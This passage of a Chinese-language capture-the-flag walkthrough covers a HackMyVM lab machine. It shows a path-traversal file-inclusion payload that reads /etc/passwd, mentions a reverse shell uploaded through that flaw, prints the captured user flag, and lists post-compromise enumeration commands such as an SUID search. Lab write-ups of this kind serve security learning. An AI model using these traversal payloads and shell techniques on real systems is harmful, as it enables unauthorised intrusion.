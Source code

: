 ### 提权到void用户

这个时候群主大大[ll104567](https://hackmyvm.eu/profile/?user=ll104567)发现了一个LFI漏洞：

```text
http://10.161.61.131:8000/?file=....//....//....//....//etc/passwd
```

![image-20240316015441233](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249802.png)

这时候我犯病了，没看懂英文，我还傻乎乎的问群主哪有密码。。。。。

上传反弹shell，使用文件包含住：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190249803.png" alt="image-20240316015800365" style="zoom:50%;" />

获取到了shell！

查看一下flag：

```bash
$ cd /home/void
$ ls
payload.sh
user.txt
web-void
$ cat user.txt
void{70zHEmM1WJL0jjm2WBorHVEQj}
```

### 信息搜集

```bash
$ whoami;id
void
uid=1001(void) gid=1001(void) groups=1001(void)
$ crontab -l
no crontab for void
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/bash
/usr/bin/gpasswd
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
$ uname -a
Linux universe 6.1.0-17-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.69-1 (2023-12-30) x86_64 GNU/Linux 
```
